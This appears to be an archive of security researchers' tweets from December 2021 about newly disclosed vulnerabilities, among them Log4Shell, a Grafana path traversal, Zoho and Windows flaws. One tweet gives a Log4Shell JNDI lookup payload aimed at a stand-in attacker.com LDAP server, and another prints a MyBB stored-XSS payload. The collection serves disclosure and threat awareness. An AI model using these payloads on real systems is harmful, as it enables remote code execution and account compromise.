CVE-2021-44228 Log4j RCE Burp Bounty Pro Profile Available!

Log4j versions prior to 2.15.0 are subject to a remote code execution vulnerability via the ldap JNDI parser.

If your are a Burp Bounty Pro user, you can download now the profile at:

https://t.co/2lXRz3gwkQ
</blockquote>

* https://burpbounty.net/cve-2021-44228-log4j-rce/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1469247816094531585 _at 2021-12-10, 10:09:11_**
<blockquote>
CVE-2021-44228: Apache Log4j2 JNDI features do not protect against attacker controlled LDAP and other JNDI related endpoints.

https://t.co/12u0753Oma https://t.co/CQmrsahNqw
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# artsploit
**https://twitter.com/artsploit/status/1469245422153699329 _at 2021-12-10, 09:59:40_**
<blockquote>
log2j RCE (CVE-2021-44228): You may find my Rogue JNDI tool useful for exploitation. Just run the server and send ${jndi:ldap://attacker.com/o=tomcat} payload to the victim https://t.co/XS3bkt9QjX
</blockquote>

* https://github.com/veracode-research/rogue-jndi

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>484</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1469225135504650240 _at 2021-12-10, 08:39:03_**
<blockquote>
Mass scanning activity detected from multiple hosts checking for servers using Apache Log4j (Java logging library) vulnerable to remote code execution (https://t.co/GgksMUlf94).

Query our API for "tags=CVE-2021-44228" for source IP addresses and other IOCs. #threatintel
</blockquote>

* https://github.com/advisories/GHSA-jfh8-c2jp-5v3q

<table><tr>
<td>Quotes: <code>38</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>218</code></td>
<td>Favorites: <code>463</code></td>
</tr></table>

---

# JLLeitschuh
**https://twitter.com/JLLeitschuh/status/1469148466341416964 _at 2021-12-10, 03:34:24_**
<blockquote>
So this Log4J JNDI vulnerability (CVE-2021-44228) is nasty.

From my understanding, any user input being logged is a potential RCE vector.

This logging framework is used everywhere in the JVM ecosystem.

😬😩
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# TJ_Null
**https://twitter.com/TJ_Null/status/1469006847449440262 _at 2021-12-09, 18:11:39_**
<blockquote>
How I feel about Raspberry PI Default Credentials being added as a CVE... CVE-2021-38759  🤦‍♂️ https://t.co/JMhDOYY5N7
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1468529145378443273 _at 2021-12-08, 10:33:26_**
<blockquote>
Grafana Path Traversal Vulnerability CVE-2021-43798

Advisory
https://t.co/paILYbwzak

Vulnerable section in code
https://t.co/JsASQjOEuk

... and Github already has the PoCs https://t.co/oPsmUhpMrv
</blockquote>

* https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
* https://twitter.com/TomNomNom/status/1468521389623808002

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# TomNomNom
**https://twitter.com/TomNomNom/status/1468521389623808002 _at 2021-12-08, 10:02:37_**
<blockquote>
The cause of CVE-2021-43798 (the Grafana path traversal / file disclosure bug) is kind of interesting and shows the importance of reading and understanding the the docs carefully. Here's the function that's at fault https://t.co/RWWEodMz1D
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>187</code></td>
<td>Favorites: <code>570</code></td>
</tr></table>

---

# VulmonFeeds
**https://twitter.com/VulmonFeeds/status/1468513074298642433 _at 2021-12-08, 09:29:35_**
<blockquote>
CVE-2021-41024

FortiOS &amp; FortiProxy -- Path traversal vulnerability. A relative path traversal [CWE-23] vulnerabiltiy in FortiOS and FortiProxy may allow an unauthenticated, unauthorized attacker to inject path tr...

https://t.co/bCQTylPP5O
</blockquote>

* http://vulmon.com/vulnerabilitydetails?qid=CVE-2021-41024

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1468410745264041992 _at 2021-12-08, 02:42:58_**
<blockquote>
CVE-2021-43798 Grafana path traversal

AND

BYPASS Nginx 400 Bad Request ~

https://t.co/z0fD8VEE8W https://t.co/IJtStZGdfb
</blockquote>

* https://t.zsxq.com/Q3VvRzn

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1468213521666260994 _at 2021-12-07, 13:39:16_**
<blockquote>
🎁 PoC for a stored XSS in MyBB &lt; 1.8.25 (CVE-2021-27279). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: [email]a@a.a?[email=a@a.a? onmouseover=alert(1) a]a[/email][/email]

Advisory: https://t.co/i7v9mTie2p https://t.co/eHodNO7KZn
</blockquote>

* https://github.com/mybb/mybb/security/advisories/GHSA-6483-hcpp-p75w

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---

# cnotin
**https://twitter.com/cnotin/status/1467791440176726022 _at 2021-12-06, 09:42:04_**
<blockquote>
Privilege escalation from "DNSAdmins" to "Domain Admins" in Active Directory has finally gotten a reference: CVE-2021-40469 and a patch from Microsoft https://t.co/WIV25qm0QT
This attack path has been known since 4,5 years! https://t.co/mNAd2brM0z
https://t.co/yoxiIEqd4U
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40469
* https://adsecurity.org/?p=4064
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1467771166479769606 _at 2021-12-06, 08:21:30_**
<blockquote>
Yet another RCE vulnerability in a @Zoho product reported as CVE-2021-44515

Could you please just publish the IOCs so that I don't have to reverse engineer your JAVA shit to get the information. Many thanks

https://t.co/hQS8wlGC02 https://t.co/2NyJqeaB42
</blockquote>

* https://thehackernews.com/2021/12/warning-yet-another-zoho-manageengine.html

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1467738826705674244 _at 2021-12-06, 06:13:00_**
<blockquote>
Zoho warns of new zero-day vulnerability exploited in attacks

▶ CVE-2021-44515 -- impacing Zoho ManageEngine Desktop Central servers

https://t.co/XakJkPSyBl https://t.co/i4brbE979s
</blockquote>

* https://therecord.media/zoho-warns-of-new-zero-day-vulnerability-exploited-in-attacks/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1467231518376538115 _at 2021-12-04, 20:37:08_**
<blockquote>
[CVE-2021-42008] Exploiting A 16-Year-Old Vulnerability In The Linux 6pack Driver
https://t.co/ZYTpajvWmB https://t.co/OMiTCnB5pH
</blockquote>

* https://syst3mfailure.io/sixpack-slab-out-of-bounds

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1467121257531404288 _at 2021-12-04, 13:19:00_**
<blockquote>
Analysis for CVE-2021-34535, an RDP RCE patched in August

https://t.co/qtF2Sll8eA https://t.co/Ov9m8SYlhX
</blockquote>

* https://www.synack.com/blog/this-microsoft-windows-rce-vulnerability-gives-an-attacker-complete-control/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>153</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1466857859782782977 _at 2021-12-03, 19:52:21_**
<blockquote>
I gave the Windows LPE zero-day exploit InstallerFileTakeOver (aka variation on CVE-2021-41379) the @AttackerKb  treatment. I also wrote a cleaner (imo) and functional proof of concept.
https://t.co/E49cmwZAA2 
https://t.co/Na8JM4iTMx
</blockquote>

* https://github.com/jbaines-r7/shakeitoff
* https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---

# harshbothra_
**https://twitter.com/harshbothra_/status/1466261089520431111 _at 2021-12-02, 04:21:00_**
<blockquote>
#Learn365 Day-236: Zero-Day Disclosure: Palo Alto Networks GlobalProtect VPN CVE-2021-3064

Blog: https://t.co/P54M40rZEP
</blockquote>

* https://www.randori.com/blog/cve-2021-3064/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

